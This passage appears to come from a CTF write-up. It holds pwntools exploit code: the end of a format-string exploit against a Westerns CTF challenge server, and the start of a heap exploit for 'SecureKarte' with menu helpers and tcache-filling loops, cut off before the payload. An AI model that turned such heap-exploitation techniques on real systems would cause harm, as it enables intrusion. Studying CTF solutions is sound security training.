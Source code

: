 ```pyhton
    payload = payload.ljust(0x100, '\x00')
    p.recvuntil("comment?\n")
    p.sendline(payload)

    p.interactive()

if __name__ == '__main__':
    GameStart('printf.chal.ctf.westerns.tokyo', 10001, 0)
```

### SecureKarte

```python
from pwn import *
context.log_level = 'debug'

def add(sz, des):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil(' > ')
    p.sendline(str(sz))
    p.recvuntil(' > ')
    p.send(des)
    p.recvuntil('Added id ')
    return int(p.recvline()[ : -1])

def delete(idx):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil(' > ')
    p.sendline(str(idx))

def modify(idx, des):
    p.recvuntil('> ')
    p.sendline('4')
    p.recvuntil(' > ')
    p.sendline(str(idx))
    p.recvuntil(' > ')
    p.send(des)

def rename(name):
    p.recvuntil('> ')
    p.sendline('99')
    p.recvuntil('name... ')
    p.send(name)

def GameStart(ip, port, debug):
    global p
    if debug == 1:
        p = process('./karte', env = {"LD_PRELOAD" : './libc.so.6'})
    else:
        p = remote(ip, port)
    p.recvuntil('name... ')
    p.send(p64(0) + p64(0x80))

    for i in range(7):
        idx = add(0x78, 'swing tql')
        delete(idx)

    for i in range(7):
        idx = add(0x68, 'swing tql')
        delete(idx)

```